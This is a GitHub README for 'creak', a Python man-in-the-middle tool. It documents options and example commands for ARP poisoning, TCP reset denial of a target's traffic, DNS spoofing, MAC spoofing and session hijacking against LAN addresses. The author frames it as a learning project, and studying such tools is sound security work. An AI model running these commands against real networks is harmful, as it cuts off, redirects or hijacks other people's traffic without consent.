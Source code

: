 # creak

Performs some of the most famous MITM attack on target addresses located in a
local network. Among these, deny navigation and download capabilities of a
target host in the local network performing an ARP poison attack and sending
reset TCP packets to every request made to the router.
Born as a didactic project for learning python language, I decline every
responsibility for any abuse, including malevolent or illegal use of this code.

## Installation

```sh
$ git clone https://github.com/codepr/creak.git
$ cd creak
$ python setup.py install
```
or simply clone the repository and run the `creak.py` after all requirements are
installed:

```sh
$ git clone https://github.com/codepr/creak.git
```

It is required to have installed `pcap` libraries for raw packet manipulations
and `dpkt` module, for dns spoofing options is required to have installed dnet
module from `libdnet` package, do not confuse it with pydnet (network
evaluation tool) module.
It can use also `scapy` if desired, can just be set in the `config` file at the
section `[output]` > `ENGINE`.

## Options

```sh
Usage: creak.py [options] dev

Options:
  -h, --help           show this help message and exit
  -1, --sessions-scan  Sessions scan mode
  -2, --dns-spoof      Dns spoofing
  -3, --session-hijack Try to steal a TCP sessions by desynchronization (old technique)
  -x, --spoof          Spoof mode, generate a fake MAC address to be used
                       during attack
  -m MACADDR           Mac address octet prefix (could be an entire MAC
                       address in the form AA:BB:CC:DD:EE:FF)
  -M MANUFACTURER      Manufacturer of the wireless device, for retrieving a
                       manufactur based prefix for MAC spoof
  -s SOURCE            Source ip address (e.g. a class C address like
                       192.168.1.150) usually the router address
  -t TARGET            Target ip address (e.g. a class C address like
                       192.168.1.150), can be specified multiple times
  -p PORT              Target port to shutdown
  -a HOST              Target host that will be redirect while navigating on
                       target machine
  -r REDIR             Target redirection that will be fetched instead of host
                       on the target machine
  -v, --verbose        Verbose output mode
  -d, --dotted         Dotted output mode
```

## Example

Most basic usage:
Deny all traffic to the target host

```sh
$ python creak.py -t 192.168.1.30 wlan0
```

Set a different gateway:

```sh
$ python creak.py -s 192.168.1.2 -t 192.168.1.30 wlan0
```

Set a different mac address for the device:

```sh
$ python creak.py -m 00:11:22:33:44:55 -t 192.168.1.30 wlan0
```

Spoof mac address generating a fake one:

```sh
$ python creak.py -x -t 192.168.1.30 wlan0
```

Spoof mac address generating one based on manufacturer(e.g Xeros):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 wlan0
```

DNS spoofing using a fake MAC address, redirecting ab.xy to cd.xz(e.g.
		localhost):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 -a www.ab.xy -r www.cd.xz wlan0
```

Deny multiple hosts in the subnet:

```sh
$ python creak.py -x -t 192.168.1.30 -t 192.168.1.31 -t 192.168.1.32 wlan0
```

## Changelog

See the [CHANGELOG](CHANGELOG.md) file.

## TODO

- Sessions grouping based on active load usage
- Complete `Scapy` support (**started**)
- Sessions hijacking (**started**)
- Port to a micro-framework wih plugin architecture (**75% completed**)

## License

See the [LICENSE](LICENSE.md) file for license rights and limitations (GNU v3).
